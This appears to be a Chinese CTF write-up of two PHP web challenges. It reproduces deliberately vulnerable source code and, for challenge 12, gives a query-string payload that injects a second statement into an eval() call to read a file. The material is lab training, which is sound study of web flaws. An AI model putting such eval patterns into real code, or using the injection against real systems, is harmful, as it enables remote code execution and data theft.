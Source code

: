 # challenge 12

**源码**

```php
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__);
```

做法类似challenge 4

> var_dump($a)可考虑命令执行，构造`?hello=);var_dump(file("flag.php"));//`
> var_dump($a); ---->` var_dump();var_dump(file("flag.php"));//);`





# challenge 13

**源码**

```php
<?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}  //120秒之后销毁会话

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');  //range创建一个包含从 "a" 到 "z" 之间的元素范围的数组
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)]; //生成两个随机字母

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
} //当whoami=value时，num+1，whoami=$str_rands；==弱类型比较

if($_SESSION['nums']>=10){
  echo $flag;
}  //循环10次输出flag

show_source(__FILE__);
?>
```

